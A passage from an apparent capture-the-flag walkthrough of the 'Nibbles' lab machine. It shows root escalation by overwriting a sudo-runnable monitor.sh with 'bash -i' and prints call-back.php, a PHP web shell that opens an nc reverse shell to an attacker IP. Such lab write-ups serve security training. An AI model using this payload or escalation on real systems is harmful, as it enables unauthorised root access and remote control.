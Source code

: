 As before, the file /home/nibbler/personal.zip looks interesting, so let's extract it:
    
    unzip personal.zip

    ls -la personal/stuff/monitor.sh

![](/images/nibbles/36. personal.png)

So here we have monitor.sh that we can edit and execute.  Now let's check sudo permissions.

    sudo -l

![](/images/nibbles/37. sudo_l.png)

So we can run monitor.sh as root!  You can edit the script to just give an interactive bash shell:

    echo “bash -i” > personal/stuff/monitor.sh

    cat personal/stuff/monitor.sh

![](/images/nibbles/38. echo.png)

Now let's run it!

    sudo personal/stuff/monitor.sh

![](/images/nibbles/39. monitor.png)

Success!  Let's go get our root flag:

    cat /root/root.txt

![](/images/nibbles/40. root.png)

And here we have our flags.

<p>&nbsp;</p>
=======================================================

## Final Code

=======================================================

call-back.php:

      <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 17011 >/tmp/f"); ?>

<p>&nbsp;</p>
=======================================================

## Links & Additional Reading

=======================================================

1. Rapid7 Metasploit module entry: [https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload)

<p>&nbsp;</p>
=======================================================

![rax logo](/images/rax_intel.png)

<p>&nbsp;</p>
